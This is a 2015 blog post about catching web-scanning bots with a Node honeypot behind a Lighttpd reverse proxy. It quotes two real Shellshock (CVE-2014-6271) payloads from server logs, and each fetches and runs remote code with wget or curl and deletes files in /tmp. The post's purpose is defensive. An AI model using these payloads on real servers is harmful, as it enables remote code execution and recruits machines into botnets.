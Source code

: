 Catching Spam Bots In the Act with Node
=======================================

Have you ever been searching through your webserver’s logs and noticed
Chinese IP’s making nasty looking requests like… These:

------------------------------------------------------------------------

### Catching Spam Bots In the Act with Node

Have you ever been searching through your webserver’s logs and noticed
Chinese IP’s making nasty looking requests like…  
   
 These:

    GET /cgi-bin/bash HTTP/1.1

    GET /cgi-bin/php HTTP/1.1

    GET /rom-0 HTTP/1.1

This:

    () { :;};/usr/bin/perl -e 'print \"Content-Type: text/plain\\r\\n\\r\\nXSUCCESS!\";system(\"wget http://redacted.com/cata.txt -O /tmp/b.pl;curl -O /tmp/b.pl http://redacted.com/cata.txt;perl /tmp/b.pl;rm -rf /tmp/b.pl*\");'"

Or even *this*?

    () { :; }; /bin/bash -c \"rm -rf /tmp/*;echo wget http://123.456.7.8:911/java -O /tmp/China.Z-rmeo >> /tmp/Run.sh;echo echo By China.Z >> /tmp/Run.sh;echo chmod 777 /tmp/China.Z-rmeo >> /tmp/Run.sh;echo /tmp/China.Z-rmeo >> /tmp/Run.sh;echo rm -rf /tmp/Run.sh >> /tmp/Run.sh;chmod 777 /tmp/Run.sh;/tmp/Run.sh\"

**Ouch!**

Though most current web servers are immune to these simple attacks
(assuming, of course, that you've been keeping your packages updated),
it's often interesting to see how bots attempt to exploit vulnerable
services running on web servers.

In some cases, such as the log excerpts above, it's easy to see how this
is achieved. The user-agent is crafted to exploit
<a href="https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271" class="markup--anchor markup--p-anchor">CVE-2014-6271</a>
(AKA Shellshock), which results in some commands being run that turn our
precious server into a mindless zombie :(

However, in other cases, this information is not as apparent. The
default logging configuration for most web servers doesn't include other
data which could potentially be used as an attack vector, such as HTTP
headers!

Therefore, we'll have to write our own script to collect this data from
such nasty requests and log it.

You'll need to either create a script that listens to HTTP requests and
writes all those juicy details to a log file in whatever language you
like (Python, PHP, Ruby, even a Perl CGI script), or find one out on the
net somewhere. I'm just going to reuse
<a href="https://github.com/ctrezevant/node-form-inspector" class="markup--anchor markup--p-anchor">one of my old projects</a>
for this, which just so happens to be written in Node.
<a href="https://gist.github.com/ctrezevant/0b1d6f008d08401b4f66" class="markup--anchor markup--p-anchor">Here's the adapted version.</a>

If you do decide to write your own script, make sure that it does the
following:

-   <span id="8127">Accepts all incoming HTTP connections.</span>
-   <span id="9f6e">Logs the details of those connections to a
    file.</span>
-   <span id="3f57">Returns 200 as the response code (You attract more
    bots with honey than with vinegar, so make the request appear to
    work).</span>
-   <span id="8acc">Is watertight and ready to face the incoming
    nastiness (wouldn’t want to inadvertently become a part of the
    botnet :P)</span>

You may also want to find out some URLs that these bots seem to check
regularly, because we'll need those later for our web server
configuration, but I will have some examples in this post.

I'm going to set this up on my auxiliary server, which also sits in a
"residential" IP space and gets a fair amount of these bots as result.

On to the configuration.

In your web server's configuration, set up a reverse proxy to whatever
port your script is listening for requests on.

Here's one of mine (I run Lighttpd):

    $HTTP["url"] == "/cgi-bin/test.cgi" {

    proxy.server = ( "" => ( (

    "host" => "127.0.0.1",

    "port" => 8082 ) ) )

Pretty straightforward. We take all requests for /cgi-bin/test.cgi and
proxy them to our script, which in this case is running on port 8082 on
the local machine.

Apply the configuration and use your favorite command line utility to
make a request to your shiny new reverse proxy.  
 Here's an example output from mine:

    { "fi_timeStamp": "2015:04:22:06:01:55", "fi_requestIP": "127.0.0.1", "fi_method": "GET", "req_headers": { "accept": "text/html, application/xhtml+xml, */*", "user-agent": "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/6.0)", "host": "123.456.7.8:80", "authorization": "Basic Og==", "x-forwarded-for": "432.10.54.21", "x-host": "123.456.7.8:80", "x-forwarded-proto": "http" } }

Once everything is working, just sit back, relax, and keep an eye on
your logs :)  
 UPDATE: I'll be working to keep an active list of spammer IPs
available. I'll post another update when it's up.

Update May 16 2016: See
<a href="https://github.com/ctrezevant/everlasting-botstopper" class="markup--anchor markup--p-anchor">https://github.com/ctrezevant/everlasting-botstopper</a>

------------------------------------------------------------------------

*Originally published at*
<a href="http://blog.ctis.me/2015/04/catching-spam-bots-with-node.html" class="markup--anchor markup--p-anchor"><em>blog.ctis.me</em></a>
*on April 22, 2015.*

By
<a href="https://medium.com/@charltontrez" class="p-author h-card">Charlton Trezevant</a>
on [April 22, 2015](https://medium.com/p/18504ab0fd0).

<a href="https://medium.com/@charltontrez/catching-spam-bots-in-the-act-with-node-18504ab0fd0" class="p-canonical">Canonical link</a>

Exported from [Medium](https://medium.com) on September 20, 2019.
